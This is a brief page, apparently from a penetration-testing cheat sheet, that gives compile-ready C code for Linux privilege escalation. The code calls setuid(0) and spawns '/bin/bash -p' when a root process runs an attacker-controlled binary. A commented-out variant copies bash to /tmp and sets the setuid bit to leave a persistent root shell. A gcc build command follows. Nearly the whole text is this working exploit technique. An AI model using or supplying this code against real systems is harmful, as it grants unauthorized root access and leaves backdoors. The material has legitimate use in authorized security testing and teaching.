 There may be instances where some root process executes another process which you can control. In these cases, the following C code, once compiled, will spawn a Bash shell running as root:

==privesc.c==

---
```bash - target
int main() {
 setuid(0);
 system("/bin/bash -p");
 #system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");

}
```

```bash - target
gcc privesc.c -o privesc 
```
